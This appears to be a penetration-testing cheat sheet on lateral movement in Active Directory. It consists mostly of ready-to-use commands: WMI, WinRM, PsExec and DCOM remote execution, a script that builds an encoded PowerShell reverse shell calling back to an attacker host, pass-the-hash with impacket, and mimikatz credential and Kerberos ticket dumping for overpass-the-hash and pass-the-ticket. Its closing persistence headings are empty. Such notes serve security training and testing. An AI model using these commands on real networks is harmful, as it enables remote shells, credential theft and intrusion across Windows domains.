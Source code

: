 # Lateral movements in AD

## Techniques

### Windows Remote Management

#### WMI

Takes a local group `Administrators` account:

##### In `cmd`

Deprecated:
```
wmic /node:$TargetIp /user:somelocalAdminuser /password:somepass process call create "cmd"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName $VictimIP -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e somebase64string
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command};
```

For a PowerShell reverse shell (in Python, replace the IP and Port): 
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("AttackerIp",AttackerPort); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i); $sendback = (iex $data 2>&1 | Out-String); $sendback2 = $sendback + "PS " + (pwd).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte, 0, $sendbyte.Length); $stream.Flush()}; $client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

#### WinRM

##### In `cmd`: WinRS (Windows Remote Shell)
 
```
winrs -r:targethostname -u:user -p:pass  "powershell -nop -w hidden -e somebase64string"
```

##### In PowerShell

```
$username = 'user';
$password = 'pass';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName $VictimIp -Credential $credential

Enter-PSSession $winrm_session_number
```

### PsExec

Pre-requisites:
- user `targetuser` needs to be part of the `Administrators` local group
- the `ADMIN$` share must be available
- `File and Printer Sharing` has to be turned on

Uses Sysinternals: https://learn.microsoft.com/en-us/sysinternals/

```
kali $ rdesktop -u $firstUser $firstTargetIp
cmd > C:\path\to\PsExec64.exe -i  \\targethostname -u targetdomain\targetuser -p somepass cmd
> hostname
> whoami
```

### Pass the Hash

Works with servers and services using NTLM authentication, but NOT with Kerberos authentication.
Impacket-Wmiexec on GitHub: https://github.com/fortra/impacket/blob/master/examples/smbclient.py
```
/usr/bin/impacket-wmiexec -hashes 00000000000000000000000000000000:somelonghashstring Administrator@$VictimIP
```

### Overpass the Hash

First, run a process as a different user with Shift-Right click, say Notepad. Then:
```
kali$ xfreerdp /cert-ignore /u:someuser /d:targetorg.com /p:somepass /v:somehostIp
PS > c:\path\to\mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::pth /user:targetuser /domain:targetorg.com /ntlm:somentlmstring /run:powershell
PS2 > klist # check the cached tickets
PS2 > net use \\otherhostname
PS2 > klist # re-check the cached tickets
PS2 > cd c:\path\to\psexec
PS2 > .\PsExec.exe \\otherhostname cmd
cmd > whoami # targetuser
cmd > hostname # otherhostname
```

### Pass the Ticket

Context:
- attacker connected as user1 on host1
- user2 is connected on host2
Goal:
- steal user2's Ticket Granting Service in memory and inject it in user1's session. Then connect as user1 on host2 using user2's ticket

```
PS > whoami # user1
PS > ls \\host2\someshare # access denied
PS > c:\path\to\mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
PS > dir *.kirbi # file with the tickets
mimikatz # kerberos::ptt name_of_the_kirbi_file_with_user2_tickets.kirbi
PS > klist # lists the tickets, user2 should appear
PS > ls \\host2\someshare # access granted
```

### DCOM

In an elevated PowerShell:
```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","targetIpAddress"))
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc", "7") # parameters are Command, Directory, Parameters, and WindowState
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e base64longreverseshellstring", "7")
```
Reference: https://learn.microsoft.com/en-us/previous-versions/windows/desktop/mmc/view-executeshellcommand

## Persistence

### Golden ticket

### Shawdow copies



